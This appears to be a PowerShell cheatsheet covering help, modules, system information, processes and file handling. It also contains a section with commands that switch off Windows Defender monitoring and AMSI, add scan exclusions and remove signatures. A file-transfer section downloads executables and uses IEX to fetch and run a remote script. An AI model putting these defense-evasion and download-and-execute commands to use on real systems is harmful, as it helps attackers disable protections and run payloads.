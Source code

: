 # Powershell Cheatsheet

## Help

```powershell
# List all availible powershell cmdlets and funtions
Get-Command
gcm
gcm | select-string net

# List all cmdlets, funtions, commands, and path
gcm *
gcm *net*

# Help for command
get-help <cmdlet>
help <cmdlet
man <cmdlet>

# List all installed an availible modules
get-module -ListAvailible 

# List currently loaded modules
get-module
```



## Modules

```powershell
# List installed and availible modules
get-module -ListAvailible 

# List currently loaded modules
get-module

# Import a module
import-module <module>
import-module c:\path\to\module

# Re-import module
import-module <module> -Force 
# List cmds from module
get-command -module <module> 

```



## General

```powershell
# Get command history
get-history
h

# Search through command histroy
h | sls <pattern>

# records session to file
start-transcript c:\path\to\record\to.txt
stop-transcript
```



## System Information

```powershell
# Get computer name
$env:computername

# Check if part of domain
(get-wmiobject -Class win32_computersystem).partofdomain

# Workgroup Name
(get-wmiobject -Class win32_computersystem).workgroup
# Check is 32-bit or 64-bit
[System.Environment]::Is64BitOperatingSystem
(Get-CimInstance -ClassName win32_operatingsystem).OSArchitecture

# List installed software
Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\Software | ft Name
Get-HotFix

# List ENV vars
get-childitem env:
gci env:

# See what drives are mounted to your file system 
get-psdrive -psprovider filesystem

# Display environment variables
Get-ChildItem env
Get-Childitem env:Path
```

## Proccesses

```powershell
# List proccesses
get-process
ps

# List process matching name
ps <pattern>

# List proccess matching pattern 
ps | out-string -stream | select-string <pattern>

# Kill process by PID
kill <pid>
kill -force <pid>

# Kill process by name
ps <name> | kill

```

## File System

```powershell
# pwd
get-location
gl

# Navigate
cd <path>
chdir <path>
si <path>

# List files
ls
dir
gci

# List hidden files
gci -Force

# List only hidden files
gci -Attributes !D+H

# List files recursively
gci -rec 
gci -rec -depth 1

# Unhide file or dir
(get-item test.txt -force).Attributes -= 'Hidden'
```

## Working with Files and Text

```powershell
# Read a File
gc file.txt
cat file.txt

# Sort and remove duplicated lines
gc file.txt | sort -u 

# Remove empty lines
(gc file.txt) | ? {$_.trim() -ne "" }

# Match Pattern -- grep
gc file.txt | select-string pattern
gc file.txt | sls pattern 

# Count number of lines
(gc file.txt).count
gc file.txt | measure -line

# Create empty file
sc file.txt -Value $null

# Read and replace a string
(gc file.txt).replace("abc","xyz").replace("def","opq")

# Read and replace multiple strings
$a = gc file.txt
$a -replace "abc","xyz" -replace "def","opq"
```

## Antivirus and Firewalls
### Windows Defender
```powershell
# check status of Defender
PS C:\> Get-MpComputerStatus

# disable scanning all downloaded files and attachments, disable AMSI (reactive)
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
PS C:\> Set-MpPreference -DisableIOAVProtection $true

# disable AMSI (set to 0 to enable)
PS C:\> Set-MpPreference -DisableScriptScanning 1 

# exclude a folder
PS C:\> Add-MpPreference -ExclusionPath "C:\Temp"
PS C:\> Add-MpPreference -ExclusionPath "C:\Windows\Tasks"
PS C:\> Set-MpPreference -ExclusionProcess "word.exe", "vmwp.exe"

# remove signatures (if Internet connection is present, they will be downloaded again):
PS > & "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
PS > & "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
``



## Access Control

```powershell
# Get ACL of file path

# ACL of registry object


```



## File Transfer

```powershell
# Download a file
"IEX(New Object Net.WebClient).downloadString('http://<targetip>/file.ps1')"
wget -Uri "http://192.168.204.190/a.exe" -OutFile "C:\test\a.exe"
curl -Uri "http://192.168.204.190/a.exe" -OutFile "C:\test\a.exe"
iwr -Uri "http://192.168.204.190/a.exe" -OutFile "C:\test\a.exe"
(New-Object System.Net.WebClient).DownloadFile("http://192.168.204.190/a.exe","c:\test\a.exe")
Invoke-WebRequest -Uri "http://192.168.204.190/a.exe" -OutFile "C:\test\a.exe"

# 
```


